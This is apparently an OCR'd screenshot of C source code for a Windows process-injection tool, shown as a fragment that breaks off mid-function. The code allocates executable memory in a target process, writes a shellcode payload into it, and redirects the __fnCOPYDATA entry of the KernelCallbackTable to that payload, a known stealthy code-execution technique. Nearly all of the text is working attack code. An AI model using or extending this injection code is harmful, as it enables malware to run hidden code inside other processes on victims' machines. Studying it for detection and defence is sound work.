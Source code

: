 ```c

    // Step 8: Write payload to remote buffer
    printf( COLOR_YELLOW_BOLD "\n\t[*] Allocating remote buffer for payload...\n" COLOR_RESET );
    LPVOID remotebuf = VirtualAllocEx(
        hProcess,
        NULL,
        shellcodeSize,
        MEM_RESERVE | MEM_COMMIT,
        PAGE_EXECUTE_READWRITE
    );
    if ( !remotebuf )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to allocate remote buffer. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    if ( !WriteProcessMemory(
        hProcess,
        remotebuf,
        payload,
        shellcodeSize,
        NULL
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to write payload to remote buffer. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    printf( COLOR_GREEN_BOLD "\t[+] Payload written to remote buffer at: 0x%p\n" COLOR_RESET, remotebuf );

    // Step 9: Modify __fnCOPYDATA in the KernelCallbackTable
    printf( COLOR_YELLOW_BOLD "\t[*] Modifying __fnCOPYDATA to point to payload...\n" COLOR_RESET );
    CCC.__fnCOPYDATA = ( ULONG_PTR ) remotebuf;
    printf( COLOR_BLUE_BOLD "\t\t[*] __fnCOPYDATA now points to: 0x%p\n" COLOR_RESET, remotebuf );

    // Step 10: Clone modified KernelCallbackTable
    printf( COLOR_YELLOW_BOLD "\n\t[*] Cloning modified KernelCallbackTable...\n" COLOR_RESET );
    LPVOID cloneCCC = VirtualAllocEx(
        hProcess,
        NULL,
        sizeof( CCC ),
        MEM_RESERVE | MEM_COMMIT,
        PAGE_READWRITE
    );
    if ( !cloneCCC )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to allocate memory for cloned KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
    }
    if ( !WriteProcessMemory(
        hProcess,
        cloneCCC,
        &CCC,
        sizeof( CCC ),
        NULL
    ) )
    {
        printf( COLOR_RED_BOLD "\t[-] Failed to write cloned KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
        return -1;
```